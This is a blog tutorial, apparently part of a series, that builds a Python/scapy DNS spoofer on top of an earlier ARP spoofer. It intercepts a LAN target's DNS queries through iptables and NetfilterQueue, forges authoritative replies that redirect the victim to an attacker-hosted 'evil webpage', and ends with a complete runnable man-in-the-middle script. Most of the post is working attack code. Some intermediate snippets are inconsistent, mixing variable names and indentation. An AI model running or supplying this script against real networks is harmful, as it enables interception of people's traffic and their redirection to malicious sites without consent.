




[In the previous post, we built a basic ARP spoofer.](/arp-spoofer-1) In this post, we’ll expand the capabilities of the spoofer to listen for DNS requests from our target, and return our own DNS response. This will allow us to direct our target to our own machine, rather than the original one.

## Tech Used

- Python 3.7.4
- scapy 2.4.2
- Netfilterqueue 0.8.1
- Linux

## DNS

While you may access most of the internet through hostnames, like padraig.io, that isn’t how things over the internet communicate with one another. The communication is done between IP addresses. DNS is a protocol for resolving a domain name, like padraig.io to an IP address.

The DNS process involves querying a DNS server. There are a lot of DNS servers on the internet; your ISP probably has one, companies like Google and Cloudflare have one, and most large networks in schools and companies probably have their own as well.

As with ARP, basic DNS has no authentication. Although are some solutions to the DNS authentication issue, like [DNSSEC](https://en.wikipedia.org/wiki/Domain_Name_System_Security_Extensions), it is not widely supported just yet.

## DNS 101

The DNS protocol is a query/response. A client makes a DNS query to their local DNS server to resolve a hostname. Most (all?) ISPs have their own DNS server. Larger networks found in companies and post-secondary institutions usually have a local DNS server that caches results. Several tech companies also run their own DNS servers; like [Cloudflare’s 1.1.1.1](https://1.1.1.1/) and [Google’s 8.8.8.8.](https://developers.google.com/speed/public-dns/)

It should also be noted that typically only the first response to any DNS query is used. Subsequent responses will be ignored.

**DNS Packet Structure**
A full breakdown of the DNS packet structure is available on [Wikipedia](https://en.wikipedia.org/wiki/Domain_Name_System#DNS_message_format). For the purposes of this post, a few fields within the packet are highlighted:

- **Transaction ID**: An arbitrary number created by the device that issued the query. Any response needs to have the same ID returned
- **QR**: 0 if it is a query, 1 if it is a response
- **AA (response only)**: 1 indicates that the DNS server that returns the response is the authoritative server for that hostname
- **Response**: can have one 1 or more records in every response

## Some refactoring

First things first, our `arp_spoof.py` script could use a bit of clean up. Feel free to skip to the end of this section to get the most updated version of the script.

First we’re adding a new parameter `interface`, which tells scapy which network interface we want to perform the operation on. Next, we’ll move the ARP spoofing code into a thread, so it can run continuously:

```python{numberLines: true}
import threading

# ...
def arp_spoof(
    interface: str, target_ip: str, target_mac: str, gateway_ip: str, gateway_mac: str
):
    # Build the packets
    target_packet = Ether(dst=target_mac) / ARP(
        op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
    )
    router_packet = Ether(dst=gateway_mac) / ARP(
        op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
    )
    while True:
        sendp([target_packet, router_packet], verbose=0, iface=interface)
        # Sleep for 1 second between beacons
        time.sleep(1)
```

Also, we’re going to move the initialization part of the script into it’s own function:

```python{numberLines: true}
def main(target_ip: str, gateway_ip: str, interface: str):
    # Resolve the MAC addresses
    target_mac = resolve_ip("target", target_ip)
    gateway_mac = resolve_ip("gateway", gateway_ip)
    os.system("sysctl -w net.ipv4.ip_forward=1")
    # Loop forever and beacon packets
    try:
        arp_spoof_thread = threading.Thread(
            target=arp_spoof,
            args=(target_ip, target_mac, gateway_ip, gateway_mac),
            daemon=True,
        )
        arp_spoof_thread.start()
        arp_spoof_thread.join()
    except KeyboardInterrupt:
        os.system("sysctl -w net.ipv4.ip_forward=0")

if __name__ == "__main__":
    gateway_ip = "192.168.1.1"
    target_ip = "192.168.1.110"
    interface = "enp0s31f6"
    main(target_ip, gateway_ip, interface)
```

While we’re at it, we might as well leverage `argparse` to pass in our target and gateway IP address as parameters:

```python{numberLines: true}
if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target", help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway", help="Gateway IP")
    parser.add_argument(
        "-i",
        "--interface",
        dest="interface",
        help="Name of network interface",
        default="enp0s31f6",
    )
    args = parser.parse_args()
    main(args.target, args.gateway, args.interface)
```

Now that we’ve done that, let’s move on to the new stuff!
The updated code is [available here](./refactored_arp.py).

## Adding the DNS spoofer thread

We’re going to leverage scapy’s `sniff()` method to look for DNS query packets coming from our target. Here is what they look like in Wireshark:


With a packet structure like this:



We start out by initializing the DNS thread the same as we initialized the ARP spoof thread:

```python{numberLines: true}
hostnames = ['padraig.io']
evil_ip = '192.168.1.100'
dns_spoof_thread = threading.Thread(
    target=dns_spoof,
    args=(interface, hostnames, evil_ip, attacker_mac, target_ip, target_mac),
    daemon=True,
)
dns_spoof_thread.start()
dns_spoof_thread.join()
```

Next, we leverage scapy’s `sniff` function to look for the packets we want:

```python{numberLines: true}
def dns_spoof(
    interface: str,
    hostnames: List[str],
    redirect_ip: str,
    attacker_mac: str,
    target_ip: str,
    target_mac: str,
):
    def on_packet(packet):
      # Convert the qname query from byte string to string
      qname = packet.qd.qname.decode()
      if qname in hostnames:
          print(f"Got DNS request for {qname}")

    filter = ???
    lfilter = ???
    while True:
        sniff(
            prn=on_packet, # Callback function
            filter=filter, # Berkley Packet Filter string
            lfilter=lfilter, # Functional filter
            store=0, # Don't store any packets
            iface=interface,
            promisc=1, # Turn promiscuous mode on (sniff all the things!)
            count=0, # Only capture one packet at a time
        )
```

The question now becomes, what should `filter` and `lfilter` be set to? We can also reference Wikipedia for their entry on [DNS packet structure](https://en.wikipedia.org/wiki/Domain_Name_System), and also leverage our Wireshark capture of a DNS packet to know that we’re looking for:

- UDP packet
- Port 53
- Query: `padraig.io`
- Source MAC address: the target
- Destination MAC address: the attacker

[Berkley Packet Filter](http://biot.com/capstats/bpf.html) strings are slightly different than Wireshark filter strings. After referencing the documentation, we can convert most of the above bullet points into a string:
` filter = f"udp port 53 and ether dst {attacker_mac} and ether src {target_mac}``" `

Next up is the functional filter. For this, we just want to check to see if the packet has the `DNSQR`, or DNS Query packet layer in it. We wouldn’t want to response to a response, after all!
`lfilter = lambda p: p.haslayer(DNSQR)`

**Crafting the response**
What should our response look like? We need to inform our target, that their gateway has returned them the DNS query. Here is a very basic example:

```python{numberLines: true}
response_packet = (
    IP(dst=target_ip)
    / UDP(sport=packet.dport, dport=packet.sport)
    / DNS(
        qr=1,  # Response
        aa=1,  # Authoritative response
        id=packet[DNS].id,  # Copying the DNS id from the query
        qd=packet[DNS].qd,  # Copying the
        an=DNSRR(
            ttl=10,  # Time To Live of the packet
            rdata=redirect_ip,  # What IP to direct to
            rrname=qname, # The original hostname of the query
        ),
    )
)
sendp(response_packet, verbose=0, iface=interface)
```

Lets give it a test:



Something is obviously wrong here. The correct IP has probably still be returned. By examining the network traffic in Wireshark, we see our problem.


The malicious response is being sent after the real response is forwarded. Unfortunately our code is too slow. This is due in part to scapy and Python. While they are both powerful, that power comes at a bit of a cost of speed.

We could of course optimize the code. We could pre-generate as much of the DNS response as possible, or use a better filter set. Even then, the code may never be fast enough to beat a local LAN DNS cache.

Considering that all the network traffic for our target is already flowing through our machine, we can selectively filter out the DNS response packets. For this post, we’ll look at leveraging [libnetfilter_queue](https://netfilter.org/projects/libnetfilter_queue/). As an added bonus, there is a Python wrapper for it through called [NetfilterQueue](https://pypi.org/project/NetfilterQueue/).

## Enter libnetfilter_queue

[libnetfilter_queue](https://netfilter.org/projects/libnetfilter_queue/) is a library that leverages `iptables`, Linux’s firewall, to selectively block or modify packets as they move through the firewall. We can leverage NetfilterQueue, and it’s Python bindings [NetfilterQueue](https://pypi.org/project/NetfilterQueue/).

**Note:** As of the time of writing this, the current version of NetfilterQueue does not work with Python 3.7. To work around this, I had to clone the git repo, install Cython, build it myself, and install it:

```bash
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install
```

Creating a netfilter queue in python is straightforward:

```python{numberLines: true}
from netfilterqueue import NetfilterQueue

def print_and_accept(packet):
    # Convert the raw payload into a scapy packet
    data = packet.get_payload()
    pkt = IP(data)
    if pkt.haslayer(DNSQR):
        print(f"Got DNS request for {pkt[DNS].qd.qname}")
    packet.accept()

nfqueue = NetfilterQueue()
# Bind NFQUEUE 1 to our callback function
nfqueue.bind(1, print_and_accept)
try:
    nfqueue.run()
except KeyboardInterrupt:
    pass
nfqueue.unbind()
```

To get packets into our nfqueue filter, we’ll need to make some modifications to iptables:

```python{numberLines: true}
# All UDP packets destined for port 53 on our desired interface get put into the NFQUEUE number 1
os.system(f"iptables -t nat -A PREROUTING -p udp --dport 53 -j NFQUEUE --queue-num 1 -i {interface}")

# Ubuntu 16 and above need these lines to enable traffic forwarding
os.system(f"iptables -A FORWARD -o {interface} -j ACCEPT")
os.system(f"iptables -A FORWARD -m state --state ESTABLISHED,RELATED -i {interface} -j ACCEPT")

# To clean up after ourselves. Note: This will flush all iptable rules
os.system("iptables -F")
os.system("iptables -X")
os.system("iptables -t nat -F")
os.system("iptables -t nat -X")
```

Let’s give it a try:

```bash
Got DNS request for b'padraig.io.'
Got DNS request for b'padraig.io.'
```

## Merging the scapy sniffer and nfqueue print_and_accept

Let’s merge the two functions together to get our final function:

```python{numberLines: true}
def dns_spoof(packet):
    # Convert the raw payload into a scapy packet
    data = packet.get_payload()
    pkt = IP(data)

      # Skip the packet if it doesn't have a DNS query response
      if not scapy_packet.haslayer(DNSQR):
          packet.accept()
          return
      # Skip the packet if doesn't have our target hostnames
      qname = scapy_packet.qd.qname.decode()
      if qname not in hostnames:
          packet.accept()
          return

      response_packet = (
          IP(src=scapy_packet[IP].dst, dst=scapy_packet[IP].src)
          / UDP(sport=scapy_packet[UDP].dport, dport=scapy_packet[UDP].sport)
          / DNS(
              qr=1,  # Response
              aa=1,  # Authoritative response
              id=scapy_packet[DNS].id,  # Copying the DNS id from the query
              qd=scapy_packet[DNS].qd,  # Copying the
              an=DNSRR(
                  ttl=10,  # Time To Live of the packet
                  rdata=redirect_ip,  # What IP to direct to
                  rrname=qname,  # The original hostname of the query
              ),
          )
      )
    packet.set_payload(bytes(response_packet))
    packet.accept()
```

Let’s give it one more try:


It works! We can verify our results in Wireshark:


Lets set up a basic evil webpage for our unsuspecting target:

```bash
sudo python3 -m http.server 80
```

And visit http://padraig.io with a browser on the target machine. Note that this will only work on the **http** version of the site, and not the **https** version. Python’s basic `http.server` doesn’t support SSL connections (I believe).



Jubilation!

## Next up

So far we’ve built an ARP spoofer to spy on network traffic. We then expanded upon the ARP spoofer to actively manipulate network traffic to redirect our target from a domain they think they are going to a website we control.

It would probably be best to split the ARP spoofer and the DNS spoofer into their own scripts, or expand the command line options to be able to run them independently.

In the next post, we are going to build a transparent HTTP proxy which will flip every image upside down! This post may take a few weeks to come out. Until then, happy hacking!

## Full script

```python{numberLines: true}
import time
from scapy.all import *
from typing import List
import os
import sys
import threading
import argparse
from netfilterqueue import NetfilterQueue


def get_attacker_mac(interface):
    try:
        return get_if_hwaddr(interface)
    except:
        return None


def get_mac_from_ip(ip_address: str):
    # dst="ff:ff:ff:ff:ff:ff" broadcasts the request to the whole network
    ans = srp1(
        Ether(dst="ff:ff:ff:ff:ff:ff")
        / ARP(pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff"),
        timeout=2,
        verbose=0,
    )
    if ans:
        return ans.hwsrc
    else:
        return None


def resolve_ip(name: str, ip_address: str):
    print(f"Resolving MAC address for {name} {ip_address}")

    # Resolve the target's MAC address
    mac = get_mac_from_ip(ip_address)

    if mac == None:
        print(f"Unable to resolve IP address. Exiting!")
        sys.exit(0)

    print(f"Resolved to {mac}")
    return mac


def arp_spoof(
    interface: str, target_ip: str, target_mac: str, gateway_ip: str, gateway_mac: str
):
    # Build the packets
    target_packet = Ether(dst=target_mac) / ARP(
        op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
    )
    router_packet = Ether(dst=gateway_mac) / ARP(
        op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
    )
    while True:
        sendp([target_packet, router_packet], verbose=0, iface=interface)
        # Sleep for 1 second between beacons
        time.sleep(1)


def dns_spoof(
    interface: str,
    hostnames: List[str],
    redirect_ip: str,
    attacker_mac: str,
    target_ip: str,
    target_mac: str,
):
    def dns_spoof(packet):
        # Convert the raw payload into a scapy packet
        data = packet.get_payload()
        scapy_packet = IP(data)
        # Skip the packet if it doesn't have a DNS query response
        if not scapy_packet.haslayer(DNSQR):
            packet.accept()
            return

        # Skip the packet if doesn't have our target hostnames
        qname = scapy_packet.qd.qname.decode()
        if qname not in hostnames:
            packet.accept()
            return

        print(f"Got query for {qname}")

        response_packet = (
            IP(src=scapy_packet[IP].dst, dst=scapy_packet[IP].src)
            / UDP(sport=scapy_packet[UDP].dport, dport=scapy_packet[UDP].sport)
            / DNS(
                qr=1,  # Response
                aa=1,  # Authoritative response
                id=scapy_packet[DNS].id,  # Copying the DNS id from the query
                qd=scapy_packet[DNS].qd,  # Copying the
                an=DNSRR(
                    ttl=10,  # Time To Live of the packet
                    rdata=redirect_ip,  # What IP to direct to
                    rrname=qname,  # The original hostname of the query
                ),
            )
        )
        packet.set_payload(bytes(response_packet))
        packet.accept()

    nfqueue = NetfilterQueue()
    nfqueue.bind(1, dns_spoof)

    try:
        nfqueue.run()
    except KeyboardInterrupt:
        pass
    finally:
        print("cleaning up")
        nfqueue.unbind()


def main(target_ip: str, gateway_ip: str, interface: str, dns_ip: str):
    # Resolve the MAC addresses
    target_mac = resolve_ip("target", target_ip)
    gateway_mac = resolve_ip("gateway", gateway_ip)
    attacker_mac = get_attacker_mac(interface)

    os.system("sysctl -w net.ipv4.ip_forward=1")
    os.system(
        f"iptables -t nat -A PREROUTING -p udp --dport 53 -j NFQUEUE --queue-num 1 -i {interface}"
    )
    os.system(f"iptables -A FORWARD -o {interface} -j ACCEPT")
    os.system(
        f"iptables -A FORWARD -m state --state ESTABLISHED,RELATED -i {interface} -j ACCEPT"
    )

    # Loop forever and beacon packets
    try:
        arp_spoof_thread = threading.Thread(
            target=arp_spoof,
            args=(interface, target_ip, target_mac, gateway_ip, gateway_mac),
            daemon=True,
        )
        dns_spoof_thread = threading.Thread(
            target=dns_spoof,
            args=(
                interface,
                ["padraig.io."],
                dns_ip,
                attacker_mac,
                target_ip,
                target_mac,
            ),
            daemon=True,
        )
        arp_spoof_thread.start()
        dns_spoof_thread.start()
        arp_spoof_thread.join()
        dns_spoof_thread.join()
    except KeyboardInterrupt:
        os.system("sysctl -w net.ipv4.ip_forward=0")
        os.system("iptables -F")
        os.system("iptables -X")
        os.system("iptables -t nat -F")
        os.system("iptables -t nat -X")


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target", help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway", help="Gateway IP")
    parser.add_argument(
        "-i",
        "--interface",
        dest="interface",
        help="Name of network interface",
        default="enp0s31f6",
    )
    parser.add_argument("-d", "--dns-redirect", dest="dns_ip", help="DNS Redirect IP")
    args = parser.parse_args()
    main(args.target, args.gateway, args.interface, args.dns_ip)
```
